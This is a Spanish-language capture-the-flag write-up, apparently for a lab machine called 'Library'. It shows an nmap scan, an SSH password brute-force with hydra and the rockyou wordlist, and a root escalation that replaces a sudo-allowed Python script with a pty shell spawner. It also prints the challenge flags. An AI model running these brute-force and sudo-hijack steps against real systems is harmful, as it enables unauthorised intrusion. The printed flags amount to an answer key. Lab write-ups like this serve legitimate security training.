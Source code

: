 # Library

## Escaneo de puertos

Ejecutamos el siguiente comando de`nmap`para comprobar los puertos abiertos que hay en la máquina.

```
nmap -sV -vv 10.10.31.106
```

Hay 2 puertos abiertos: el 22 de ssh y el 80 de una aplicación web.

![Escaneo de puertos](images/Pasted_image_20250221170150.png)

## Fuzzing web

Accedemos al sitio web. 

![Imagen](images/Pasted_image_20250221170416.png)

Le hacemos fuzzing con `dirbuster` para obtener los directorios que tenga.

![Imagen](images/Pasted_image_20250221170150.png)

El único interesante puede ser el directorio de  `/images/`

![Imagen](images/Pasted_image_20250221170150.png)

También comprobamos si hay algo en el archivo `robots.txt`. Esto puede ser una pista de que uno de los usuarios tiene su contraseña en el diccionario `rockyou`.

![Imagen](images/Pasted_image_20250221170150.png)

Que puede ser `meliodas`por como vemos en la página anterior.

![Imagen](images/Pasted_image_20250221170150.png)

Hacemos un ataque de fuerza bruta con `hydra` por el puerto 22 para obtener la contraseña de `meliodas` y acceder al sistema.

```
hydra -l meliodas -P /usr/share/wordlists/rockyou.txt ssh://10.10.31.106
```

Después de unos minutos, obtenemos la contraseña del usuario y accedemos por ssh con sus credenciales.

![Imagen](images/Pasted_image_20250221170150.png)

```
ssh meliodas@10.10.31.106
```

![Imagen](images/Pasted_image_20250221170150.png)

Obtenemos la flag de`user.txt`.

![Imagen](images/Pasted_image_20250221170150.png)

```
6d488cbb3f111d135722c33cb635f4ec
```

## Escalada de privilegios

Ejecutamos el siguiente comando para ver los permisos que tiene el usuario:

```
sudo -l
```

![Imagen](images/Pasted_image_20250221170150.png)

Vemos que se le tiene permitido usar python para ejecutar un script llamado `bak.py`. Python puede ayudarnos a generar  una root shell.

![Imagen](images/Pasted_image_20250221170150.png)

Borramos el script ya que no nos permite nada más y vamos a crear nosotros el nuestro.

```
rm -f bak.py
```

Creamos un nuevo`bak.py`con el siguiente contenido:

```
#!/usr/bin/env python
import pty; pty.spawn("/bin/bash")
```

![Imagen](images/Pasted_image_20250221170150.png)

Ejecutamos el siguiente comando para iniciar el script y obtener el root.

```
sudo /usr/bin/python3 /home/meliodas/bak.py
```
![Imagen](images/Pasted_image_20250221170150.png)

Nos ubicamos en la carpeta`/root/` y obtenemos la última flag.

![Imagen](images/Pasted_image_20250221170150.png)

```
e8c8c6c256c35515d1d344ee0488c617
```












